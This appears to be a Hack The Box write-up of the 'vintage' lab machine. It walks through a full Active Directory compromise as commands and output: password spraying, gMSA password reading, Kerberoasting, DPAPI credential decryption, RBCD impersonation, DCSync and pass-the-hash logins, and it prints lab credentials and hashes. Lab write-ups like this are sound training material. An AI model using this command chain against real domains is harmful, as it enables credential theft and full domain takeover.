 ```yaml
---
layout: post
title: HTB - vintage
date: 2025-05-05 14:07 -0400
---
```


{{ 'vintage' | machine_img }}

## nmap
```bash
» sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49674,60870,60875,60893 -sC -sV $(cat ip.txt) --min-rate 1024
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-14 15:11 -04
Nmap scan report for dc01.vintage.htb (10.10.11.45)
Host is up (0.24s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-14 19:15:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60870/tcp open  msrpc         Microsoft Windows RPC
60875/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m59s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-02-14T19:16:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.27 seconds
```

## domains
dc01.vintage.htb
vintage.htb

Default windows ports, we have P.Rosa credentials to start.
- P.Rosa:Rosaisbest123

Start checking smb.
```bash
» netexec smb $(cat ip.txt) -u P.Rosa@vintage.htb -p Rosaisbest123
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa@vintage.htb:Rosaisbest123 STATUS_NOT_SUPPORTED
```

Looks like you need to use kerberos auth.
```bash
» netexec smb dc01.vintage.htb -u P.Rosa@vintage.htb -p Rosaisbest123 -k
```

Check bloodhound now.
```bash
bloodhound-ce-python -c All -u P.Rosa -p Rosaisbest123  --zip -d vintage.htb -ns $(cat ip.txt)
```

Make a list of users and try <user>:<user>. Important to lowercase everything and add or remove `$` at the end.
```bash
» netexec smb dc01.vintage.htb -u users.txt -p users.txt -k --no-brute --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\fs01:fs01
```

Got a match for FS01. It's a computer. And it has ReadGMSAPassword over GMSA01$. Maybe I can just bloodyAD it?
```bash
» bloodyAD -k --host dc01.vintage.htb get object 'gmsa01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```

So now we can login into gmsa01$ with pass the hash. And get access to 3 service accounts.
![gmsa 1](/assets/img/vintage3.png)
![gmsa 2](/assets/img/vintage4.png)


Can't change the passwords:
```bash
bloodyAD -k --host dc01.vintage.htb set password svc_sql 'asdf1234$Ba'
bloodyAD -k --host dc01.vintage.htb set password svc_ldap 'asdf1234$Ba'
bloodyAD -k --host dc01.vintage.htb set password svc_ark 'asdf1234$Ba'
```

Kerberoasting works though. First needs to activate the sql account.
```bash
bloodyAD -k --host dc01.vintage.htb remove uac svc_sql -f ACCOUNTDISABLE
targetedKerberoast.py -d vintage.htb --dc-host dc01.vintage.htb -k
```

Now we crack the hashes. Only one worked.
- svc_sql:Zer0the0ne

Try this password on every user. Works for c.neri.
```bash
netexec smb dc01.vintage.htb -u users.txt -p Zer0the0ne -k --no-brute --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri:Zer0the0ne
```

c.neri has winrm access so its probably the user flag.
```bash
getTGT.py 'vintage.htb/c.neri:Zer0the0ne'
export KRB5CCNAME=./c.neri.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
*Evil-WinRM* PS C:\Users\C.Neri\Documents> type ..\Desktop\user.txt
33c3e***************************
```

On linux you need to edit the kerberos config at `/etc/krb5.conf`, so you can winrm:
```bash
[realms]
VINTAGE.HTB = {
  kdc = dc01.vintage.htb
  admin_server = dc01.vintage.htb
  default_domain = vintage.htb
}

[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB
```

There is some saved credentials in 'C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6'. We can interact with it with dpapy.py from impacket.
```bash
dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
# Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
- vintage\c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

c.neri_adm can add self to delegatedadmins. So we can execute something as someone else?
![delegate](/assets/img/vintage5.png)
![delegate](/assets/img/vintage6.png)

We can abuse RBCD, which is a security mechanism that limits which services can act on behalf of an user.

We need an account with `GenericWrite` over another and the other account needs to have a ServicePrincipalName set. For the full theory, prerequisites and edge cases: [theory](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)

Here we can use `gmsa01$` to set `svc_sql` spn. Then we add `svc_sql` to DELEGATEDADMINS giving it access to delegation capabilities. Now we use `S4U2Self` and `S4U2Proxy`.

From what I could understand (probably incomplete):
- S4U2Self
  - gets a service ticket with the permissions of another user.
- S4U2Proxy
  - gets a service ticket for another service with the permissions of another user.

Putting it all together:
```bash
#!/usr/bin/env bash

# login as gmsa01
getTGT.py 'vintage.htb/gmsa01' -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 -no-pass
export KRB5CCNAME=./gmsa01.ccache

# update the ticket
bloodyAD -k --host dc01.vintage.htb add groupMember servicemanagers 'gmsa01$'
getTGT.py 'vintage.htb/gmsa01' -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 -no-pass

# setup svc_sql
bloodyAD -k --host dc01.vintage.htb remove uac "svc_sql" -f ACCOUNTDISABLE
bloodyAD -k --host dc01.vintage.htb set object "svc_sql" servicePrincipalName  -v "cifs/fake"
export KRB5CCNAME=

# add svc_sql to delegateadmins
getTGT.py 'vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312'
export KRB5CCNAME=./c.neri_adm.ccache
bloodyAD -k --host dc01.vintage.htb add groupMember "DELEGATEDADMINS" "svc_sql"
export KRB5CCNAME=

# impersonate l.bianchi_adm
getTGT.py vintage.htb/"svc_sql":Zer0the0ne
export KRB5CCNAME=./"svc_sql".ccache
getST.py -impersonate "l.bianchi_adm" -spn "cifs/dc01.vintage.htb" -k -no-pass -dc-ip "dc01.vintage.htb" "vintage.htb"/"svc_sql":"Zer0the0ne"
```

This gives a ticket to l.bianchi_adm, from here you can choose how you get admin, l.bianchi_adm can do whatever. With DCSync:
```bash
export KRB5CCNAME=./l.bianchi_adm.ccache
secretsdump.py -k dc01.vintage.htb -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
getTGT.py 'vintage.htb/Administrator' -hashes aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de -no-pass -k
export KRB5CCNAME=./Administrator.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

Admin gives an error when trying to login with winrm. Let's try with l.bianchi_adm.
```bash
export KRB5CCNAME=./l.bianchi_adm.ccache
secretsdump.py -k dc01.vintage.htb -just-dc-user l.bianchi_adm
# l.bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0:::
getTGT.py 'vintage.htb/l.bianchi_adm' -hashes aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0 -no-pass -k
export KRB5CCNAME=./l.bianchi_adm.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
*Evil-WinRM* PS C:\Users\l.bianchi_adm\Documentype ..\..\Administrator\Desktop\root.txt
b57b2**************************
```
